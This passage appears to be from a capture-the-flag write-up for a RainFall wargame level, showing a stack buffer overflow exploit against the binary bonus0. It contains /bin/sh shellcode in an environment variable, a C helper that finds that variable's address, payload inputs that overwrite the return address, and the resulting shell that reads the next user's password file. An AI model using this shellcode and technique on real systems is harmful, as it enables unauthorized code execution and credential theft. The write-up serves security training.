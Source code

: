 And as you can see, we manage to find the offset to the saved EIP
![image](https://hackmd.io/_uploads/H12NP-G8a.png)


Now for the actual shellcode, I used the one I generated previously and export it as an environment variable because there is no complicated argv calculations needed
```
export SHELLCODE=`python -c "print '\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80'"`
```

I also get the address of the environment variable using a small program
```clike=
// getenv.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
        char *ptr;
        if(argc < 3) {
                printf("Usage: %s <environment var> <target program name>\n", argv[0]);
                exit(0);
         }
        ptr = getenv(argv[1]); /* Get env var location. */
        ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
        printf("%s will be at %p\n", argv[1], ptr);
}
```

```
bonus0@RainFall:/tmp$ gcc getenv.c -o getenv && env -i PATH=$PATH SHELLCODE=$SHELLCODE ./getenv SHELLCODE ./bonus0
SHELLCODE will be at 0xbfffffd8
```

With the information, i will change the input and launch using the following 

```
mkfifo /tmp/input1ff
mkfifo /tmp/input2ff

python -c "print 'B' * 25 + '\n'" > /tmp/input1
python -c "print 'A' * 14 + '\xbf\xff\xff\xd8'[::-1] + 'A'" > /tmp/input2

env -i PATH=$PATH SHELLCODE=$SHELLCODE ./bonus0 < /tmp/input1ff
clear; cat /tmp/input1 - > /tmp/input1ff < /tmp/input2ff
clear; cat /tmp/input2 > /tmp/input2ff
```
Cant spawn the shell but got no errors, I try to combine the inputs together without FIFO since I dont need GDB anymore

```
bonus0@RainFall:~$ (cat /tmp/input1; cat /tmp/input2; cat) |  env -i PATH=$PATH SHELLCODE=$SHELLCODE ./bonus0
 -
 -
BBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAA����A AAAAAAAAAAAAAA����A
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

our password is `cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9`

